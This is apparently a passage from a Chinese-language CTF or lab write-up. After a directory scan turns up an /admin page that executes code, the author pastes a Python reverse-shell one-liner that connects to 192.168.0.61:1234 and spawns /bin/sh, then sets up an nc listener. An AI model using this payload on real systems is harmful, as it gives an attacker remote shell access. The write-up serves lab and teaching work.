```
Task Completed
```
看结果只扫描出来一个/admin目录

访问

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/3COJl-xTlAQfEW62p1Ksww_CoJfkVSlH5cE-rGQO5Lc.png?raw=true)

管理页面，可以执行代码，联想前面搜集的信息，可能是python写的后端

那就执行python代码吧

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
# nc反弹shell
kali进行nc监听1234端口

```
C:\root> nc -lvvp 1234
```
run Test code
